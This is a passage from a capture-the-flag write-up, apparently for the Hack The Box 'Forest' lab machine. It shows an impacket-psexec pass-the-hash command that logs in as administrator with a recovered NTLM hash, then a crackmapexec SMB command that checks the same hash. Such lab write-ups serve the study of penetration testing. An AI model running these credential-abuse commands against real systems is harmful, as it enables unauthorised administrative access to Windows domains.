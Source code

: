 ```
impacket-psexec -hashes 'aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6' -dc-ip 10.10.10.161 administrator@10.10.10.161 
```

![](assets/Forest_assets/Pasted%20image%2020230804201111.png)

- Now we have our root flag

![](assets/Forest_assets/Pasted%20image%2020230804201624.png)

- we can also verify this using crackmapexec
```
crackmapexec smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -d htb.local
```

![](assets/Forest_assets/Pasted%20image%2020230804203402.png)
